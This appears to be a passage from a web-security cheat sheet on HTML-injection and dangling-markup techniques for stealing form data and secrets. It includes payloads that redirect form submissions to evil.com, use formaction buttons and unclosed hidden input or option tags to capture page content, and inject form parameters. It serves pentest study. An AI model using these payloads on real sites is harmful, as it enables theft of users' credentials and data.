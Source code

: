 ### Stealing forms

```html
<base href="http://evil.com/" />
```

Then, the forms that send data to path (like `<form action='update_profile.php'>`) will send the data to the malicious domain.

### Stealing forms 2

Set a form header: `<form action='http://evil.com/log_steal'>` this will overwrite the next form header and all the data from the form will be sent to the attacker.

### Stealing forms 3

The button can change the URL where the information of the form is going to be sent with the attribute "formaction":

```html
<button name="xss" type="submit" formaction="https://google.com">
  I get consumed!
</button>
```

An attacker can use this to steal the information.

Find an [**example of this attack in this writeup**](https://portswigger.net/research/stealing-passwords-from-infosec-mastodon-without-bypassing-csp).

### Stealing clear text secrets 2

Using the latest mentioned technique to steal forms (injecting a new form header) you can then inject a new input field:

```html
<input type='hidden' name='review_body' value="
```

and this input field will contain all the content between its double quote and the next double quote in the HTML. This attack mix the "_**Stealing clear text secrets**_" with "_**Stealing forms2**_".

You can do the same thing injecting a form and an `<option>` tag. All the data until a closed `</option>` is found will be sent:

```html
<form action=http://google.com><input type="submit">Click Me</input><select name=xss><option
```

### Form parameter injection

You can change the path of a form and insert new values so an unexpected action will be performed:

```html
<form action="/change_settings.php">
  <input type="hidden" name="invite_user" value="fredmbogo" /> ← Injected lines

  <form action="/change_settings.php">
    ← Existing form (ignored by the parser) ...
    <input type="text" name="invite_user" value="" /> ← Subverted field ...
    <input type="hidden" name="xsrf_token" value="12345" />
    ...
  </form>
</form>
```

